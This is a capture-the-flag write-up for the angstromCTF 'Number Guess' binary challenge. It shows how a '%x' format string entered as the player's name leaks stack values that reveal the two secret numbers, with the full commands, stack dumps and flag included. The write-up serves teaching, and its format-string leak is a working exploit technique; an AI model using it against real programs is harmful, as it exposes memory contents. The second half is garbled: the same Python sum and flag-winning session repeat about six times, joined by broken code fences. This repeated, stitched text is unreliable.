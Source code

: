 # Number Guess challenge writeup

**Category:** Binary - 70

**Description:**

> Ian loves playing number guessing games, so he went ahead and [wrote one](./accumulator) himself ([source](./accumulator64)). I hope it doesn't have any vulns. The service is running at nc shell.angstromctf.com 1235.

## Solution write-up

The program asks for our name, which is pretty suspicious in itself since it doesn't have anything to do with the task. Upon a closer look, we can see that what we give him as our "name" is (almost) directly outputed, and in an unsafe way. That mean we can feed the program a format string to have a look at the top of the stack.


```
$ python -c "print '%x-'*13"
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
ba5f8034-6bb-494fe-cc3781a4-cc378220-ba5f8178-0-400a50-5e3e8-ba5f8170-daf6e900-400a50-cbfbf1c1's guess: Sorry, the answer was 686310. Try again :(
```

Okay so the result was 686310, now we can try to find the two integers in the dumped part of the stack and hope that they're here. Most of the values are already higher than the result so this limits our possibilities.


After looking around for a few seconds, we get this :


```python
>>> 0x5e3e8 + 0x494fe
686310
```

So the values of the randomly generated integers are the third and ninth from the top of the stack. 

```
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x    
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
92623254-827-20d6e-6c4e61a4-6c4e6220-92623398-0-400a50-c375-92623390-67605c00-400a50's guess: 
```

```python
>>> 0x20d6e + 0xc375
184547
```

```
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x    
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
92623254-827-20d6e-6c4e61a4-6c4e6220-92623398-0-400a50-c375-92623390-67605c00-400a50's guess: 184547
Congrats, here's a flag: actf{format_stringz_are_pre77y_sc4ry}
``````python
>>> 0x20d6e + 0xc375
184547
```

```
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x    
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
92623254-827-20d6e-6c4e61a4-6c4e6220-92623398-0-400a50-c375-92623390-67605c00-400a50's guess: 184547
Congrats, here's a flag: actf{format_stringz_are_pre77y_sc4ry}
``````python
>>> 0x20d6e + 0xc375
184547
```

```
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x    
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
92623254-827-20d6e-6c4e61a4-6c4e6220-92623398-0-400a50-c375-92623390-67605c00-400a50's guess: 184547
Congrats, here's a flag: actf{format_stringz_are_pre77y_sc4ry}
``````python
>>> 0x20d6e + 0xc375
184547
```

```
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x    
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
92623254-827-20d6e-6c4e61a4-6c4e6220-92623398-0-400a50-c375-92623390-67605c00-400a50's guess: 184547
Congrats, here's a flag: actf{format_stringz_are_pre77y_sc4ry}
``````python
>>> 0x20d6e + 0xc375
184547
```

```
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x    
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
92623254-827-20d6e-6c4e61a4-6c4e6220-92623398-0-400a50-c375-92623390-67605c00-400a50's guess: 184547
Congrats, here's a flag: actf{format_stringz_are_pre77y_sc4ry}
``````python
>>> 0x20d6e + 0xc375
184547
```

```
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x    
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
92623254-827-20d6e-6c4e61a4-6c4e6220-92623398-0-400a50-c375-92623390-67605c00-400a50's guess: 184547
Congrats, here's a flag: actf{format_stringz_are_pre77y_sc4ry}
``````python
>>> 0x20d6e + 0xc375
184547
```

```
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x    
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
92623254-827-20d6e-6c4e61a4-6c4e6220-92623398-0-400a50-c375-92623390-67605c00-400a50's guess: 184547
Congrats, here's a flag: actf{format_stringz_are_pre77y_sc4ry}
```
